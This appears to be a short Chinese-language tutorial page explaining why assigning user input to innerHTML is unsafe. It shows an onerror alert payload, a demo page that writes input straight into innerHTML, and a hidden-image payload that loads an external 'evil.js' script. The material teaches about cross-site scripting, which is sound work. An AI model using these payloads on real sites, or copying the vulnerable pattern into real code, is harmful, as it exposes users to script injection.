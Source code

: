 # `innerHTML`的安全性


## 乍看起来比较安全
HTML5 specifies that a `<script>` tag inserted with `innerHTML`
[should not execute](https://www.w3.org/TR/2008/WD-html5-20080610/dom.html#innerhtml0)
```js
document.body.innerHTML = '<script>alert(666)<\/script>'; // 脚本不会被执行
```


## 但是执行脚本并不一定需要`<script>`
```js
document.body.innerHTML = '<img src="x" onerror="alert(666)" />';
```

一个较完整的例子：
```html
<input type="text" placeholder="插入你想发送的的文章代码" id="code" />
<input type="button" value="插入文章" id="insert" />
<p id="article"></p>
<script>
document.querySelector('#insert').addEventListener('click', function(){
    document.querySelector('#article').innerHTML = document.querySelector('#code').value;
});
</script>
```
如果用户输入`<img src="x" style="display:none" onerror="var ele = document.createElement(&quot;script&quot;); ele.src = &quot;evil.js&quot;; document.body.appendChild(ele);" />`，页面上会生成一个不可见的图片，并引入一个外
部的恶意脚本`evil.js`，在这个脚本就可以构造更复杂的 XSS。

